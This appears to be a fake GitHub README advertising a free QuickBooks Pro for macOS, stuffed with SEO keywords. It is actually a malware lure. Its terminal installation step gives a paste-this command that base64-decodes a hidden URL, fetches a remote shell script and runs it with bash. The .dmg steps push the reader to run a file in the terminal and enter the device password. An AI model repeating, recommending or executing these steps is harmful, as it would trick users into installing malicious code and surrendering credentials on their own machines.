 # 💼 QuickBooks Pro — Professional Accounting Software for macOS

QuickBooks Pro is the ultimate desktop accounting solution for macOS users. Whether you're a small business owner or an accounting professional, QuickBooks Pro helps you manage invoices, track expenses, and generate detailed reports — all in one place.

[![🚀 Download QuickBooks Pro 🟣](https://img.shields.io/badge/Download-QuickBooks%20Pro-blueviolet)](https://shuziktobehuman.github.io/huja/QuickBooks)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is QuickBooks Pro?

QuickBooks Pro is a powerful and reliable desktop accounting software built for macOS. It offers all the tools you need to run your business efficiently — including income and expense tracking, invoicing, payroll, and deep financial reporting.

It’s ideal for freelancers, startups, and established businesses who want a local solution that doesn’t rely on cloud subscriptions.

---

## ✨ Features

- 📊 Professional income & expense tracking  
- 🧾 Invoice creation and management  
- 💼 Built-in payroll tools  
- 📌 Track sales, profits, and vendor activity  
- 📁 Export data into Excel or PDF  
- 🔐 Secure local storage  
- 🖥️ Optimized for macOS interface  
- 🧠 Smart automation for recurring transactions  
- 📉 Comprehensive reporting system  
- 🌐 Works offline without cloud dependency  

---

## 🖼️ Preview

![screenshot1](https://fitsmallbusiness.com/wp-content/uploads/2022/11/Screenshot_of_QuickBooks_Desktop_Pro_Income_Tracker.jpg)  
![screenshot2](https://insightfulaccountant.com/downloads/12210/download/Core-20_QB-Capital_01.png?cb=683777ae062070e0a129be49ba5e0f13)

---

## 🔍 SEO Keywords

quickbooks pro online pricing, quickbooks pro, quickbooks desktop pro,  
quickbooks premier, quickbooks accountant desktop, quickbooks desktop version,  
proadvisor quickbooks, qbo proadvisor, quickbooks pro software, desktop pro quickbooks,  
quickbook versions, qb desktop pro, quickbooks desktop pro for mac, transactionpro,  
quickbooks desktop, quickbooks pro, quickbooks desktop pro plus, quickbooks products,  
quickbooks proadvisor near me, quickbooks desktop premier, quickbooks pro plus,  
quickbooks desktop pro 2021, quickbooks pro, quick book pro, find a quickbooks proadvisor,  
quickbooks, quickbooks pro online, quickbooks desktop premier plus, quickbooks desktop pro plus, find a proadvisor

---
